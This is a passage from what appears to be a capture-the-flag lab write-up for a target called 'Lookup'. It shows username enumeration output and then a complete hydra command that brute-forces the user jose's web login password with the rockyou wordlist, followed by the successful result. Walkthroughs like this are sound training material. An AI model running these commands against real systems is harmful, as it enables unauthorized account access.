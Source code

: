 ```console
________________________________________________

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
:: Progress: [10177/10177] :: Job [1/1] :: 430 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

Using this command we find the usernames `admin` which we already knew about and a new user named `jose` 

### Brute forcing jose's password

Now that we found the user `jose` when can attempt to find their password by using a brute force attack

We can do this using `hydra` using the following command:

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-01 13:02:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Please try again.
[80][http-post-form] host: lookup.thm   login: jose   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-01 13:03:16
```

Now we can login to the webpage using jose's credentials 

![Logging In](/assets/img/CTFs/Lookup/jose-login.jpg)
